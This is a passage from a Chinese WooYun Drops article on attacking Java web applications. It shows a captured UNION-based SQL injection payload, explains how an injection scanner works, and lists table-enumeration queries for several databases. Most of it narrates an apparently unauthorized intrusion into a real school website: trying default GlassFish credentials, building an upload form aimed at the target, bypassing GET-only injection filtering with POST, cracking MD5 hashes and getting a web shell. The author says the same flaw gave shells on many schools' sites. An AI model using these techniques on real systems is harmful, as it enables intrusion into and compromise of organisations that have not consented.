SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d),concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d)-- 
```



/*[h4ckinger]asim[/h4ckinger] 这段 SQL 看不出来有什么实际意义，没有对数据库进行任何操作。对应的 SQL 是：

```
select concat(0x5b6834636b696e6765725d,'asim',0x5b2f6834636b696e6765725d)*/ 
```

没用的东西不管下一条也是点击 start 后的最后一条 SQL 同上。
那么我们可以知道点击注入点检测程序一共做了：

```
1、是否存在注入点
2、注入点的字段数量
3、注入点获取 Mysql 的版本信息、用户信息、数据库名等。
4、是否有 file_priv 也就是是否能够读写硬盘文件。 
```

程序逻辑分析：

```
1、获取 URL 是否存在
2、获取 URL 地址并进行参数分析
3、提交 and 1=1 and 1=2 进行布尔判断，获取服务器的响应码判断是否存在 SQL 注入。
4、提交占位符获取注入点查询的字段数尝试 order by 注入。
5、提交 MYSQL 自带的函数获取 MYSQL 版本信息、用户信息、数据库名等信息。
6、检测是否有 load_file 和 outfile、dumpfile 等权限。 
```

SQL 注入之获取所有用户表：

```
1、Mssql:select name from master.dbo.sysdatabase
2、Mysql:show databases
3、Sybase:SELECT a.name,b.colid,b.name,c.name,b.usertype,b.length,CASE WHEN b.status=0 THEN 'NOT NULL' WHEN b.status=8 THEN 'NULL' END status, d.text FROM sysobjects a,syscolumns b,systypes c,syscomments d WHERE a.id=b.id AND b.usertype=c.usertype AND a.type='U' --AND a.name='t_user' AND b.cdefault*=d.id ORDER BY a.name,b.colid
4、Oracle:SELECT * FROM ALL_TABLES 
```

### 0x03 简单实战

* * *

本次实战并没有什么难度，感觉找一个能把前面的都串起来的 demo 太难了。本次实战的目标是某中学，网站使用 JavaWeb 开发。去年的时候通过 POST 注入绕过了 GET 的防注入检测。对其和开发商的官网都做了 SQL 注入检测，然后加了开发商的 QQ 通知修补。



前不久再去测试的时候发现漏洞已经被修补了，围观了下开发商后发现其用的是 glassfish：




尝试从服务器弱口令入口了入手但是失败了 glassfish 的默认管理帐号是 admin 密码是 adminadmin，如果能过登录 glassfish 的后台可以直接部署一个 war 去 getshell。



由于没有使用如 Struts2 之类的 MVC 框架所以 google 了下他的 jsp，-News 参数表示不希望在搜索结果中包含带有-News 的结果。



通过 GOOGLE 找到一处 flash 上传点，值得注意的是在项目当中上传下载一般作为一个共有的业务，所以可能存在一致性也就是此处要是上传不成功恐怕到了后台也不会成功。企图上传 shell：



上传文件：

因为 tamper data 没法拦截 flash 请求，所以通过 chrome 的拦截记录开始构建上传:

```
<html><head>
<title></title></head>
<body>
<form enctype="multipart/form-data" action="http://www.x.cn/webschool/xheditor/upload.jsp?moduleId=98&limitExt=all&sid=0" method="post">
<input name="filedata" type="file"><br>
<input type="submit" value="上传文件">
</form>
</body>
</html> 
```



好吧支持 txt.html.exe 什么的先来个 txt：



一般来说我比较关注逻辑漏洞，比如找回密码，查看页面源码后还真就发现了点猫腻有 DWR 框架。

#### DWR 框架：

DWR 就是一个奇葩，人家都是想着怎么样去解耦，他倒好直接把 js 和后端 java 给耦合在一起了。DWR（Direct Web Remoting）是一个用于改善 web 页面与 Java 类交互的远程服务器端 Ajax 开源框架，可以帮助开发人员开发包含 AJAX 技术的网站。它可以允许在浏览器里的代码使用运行在 WEB 服务器上的 JAVA 方法，就像它就在浏览器里一样。



再次利用 chrome 抓网络请求，居然发现后台把用户的密码都给返回了，这不科学啊：



与此同时我把 google 到的动态连接都打开，比较轻易的就发现了一处 SQL 注入漏洞，依旧用 POST 提交吧，以免他的防注入又把我拦截下来了（再次提醒普通的防注入普遍防的是 GET 请求，POST 过去很多防注入都傻逼了,Jsp 里面 request.getParameter("parameter")GET 和 POST 方式提交的参数都能过获取到的）：



破 MD5，进后台改上传文件扩展名限制拿 shell 都一气呵成了：



GETSHELL:



可能实战写的有点简单了一点，凑合这看吧。由于这是一套通用系统，很轻易的通过该系统漏洞拿到很多学校的 shell，截图中可能有漏点，希望看文章的请勿对其进行攻击！

**Tags:** [java java 安全](http://drops.wooyun.org/tag/java-java%e5%ae%89%e5%85%a8)

版权声明：未经授权禁止转载 [园长](http://drops.wooyun.org/author/园长 "由 园长 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [攻击 JavaWeb 应用[6]-程序架构与代码审计](http://drops.wooyun.org/tips/429)
*   [攻击 JavaWeb 应用[5]-MVC 安全](http://drops.wooyun.org/tips/347)
*   [Webscan360 的防御与绕过](http://drops.wooyun.org/tips/3790)
*   [DVWA 中学习 PHP 常见漏洞及修复方法](http://drops.wooyun.org/papers/483)
*   [waf 绕过的技巧](http://drops.wooyun.org/tips/132)
*   [hackyou2014 CTF web 关卡通关攻略](http://drops.wooyun.org/tips/870)